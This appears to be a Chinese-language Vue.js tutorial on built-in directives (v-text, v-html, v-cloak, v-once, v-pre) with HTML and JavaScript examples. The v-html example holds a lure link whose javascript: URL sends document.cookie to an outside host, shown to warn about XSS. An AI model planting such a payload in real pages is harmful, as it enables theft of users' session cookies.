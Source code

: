 ```yaml
---
title: 内置指令
autoPrev: filter
---
```

在Vue中提供了一些对于页面 + 数据的更为方便的输出，这些操作就叫做指令，以`v-xx` 表示。

我们上面文章用到的 `v-if`，`v-show`，`v-on` 等都属于内置指令，接下来继续介绍其他常用的内置指令。

### v-text

```html
<div id="root">
  <div v-text="name"></div>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello Vue'
    }
  })
</script>
```
和插值语法`{{}}` 有点类似，但是 `v-text` 会替换掉节点中的内容，而`{{xx}}` 不会

### v-html

向指定节点中渲染包含html结构的内容。

```html
<div id="root">
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
```

```js
<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```

**<div style="color:red">注意</div>**：

v-html有安全性问题！！！！

在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！


### v-vloak

v-cloak 指令设置样式，这些样式会在 Vue 实例编译结束时，从绑定的 HTML 元素上被移除。

当网络较慢，网页还在加载 Vue.js ，而导致 Vue 来不及渲染，这时页面就会显示出 Vue 源代码。我们可以使用 `v-cloak` 指令来解决这一问题。

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello'
    }
  });
</script>
```
如果不加 `v-cloak` 在网速慢的情况下，会显示 `{{name}}`，之后才会渲染。

### v-once

v-once这个指令不需要任何表达式，它的作用就是定义它的元素或组件只会渲染一次，包括元素或者组件的所有字节点。首次渲染后，不再随着数据的改变而重新渲染。也就是说使用 `v-once`，那么该块都将被视为静态内容。

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript"> 
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```

点击按钮没使用 `v-once` 的会发生改变，使用 `v-once` 的不会发生改变。

### v-pre

`v-pre` 跳过其所在节点的编译过程
```html
<div id="root">
  <h2 v-pre>当前的n值是:{{n}}</h2>
  <h2 >当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```
使用 `v-pre` 的标签里面的插值表达式就失效了。


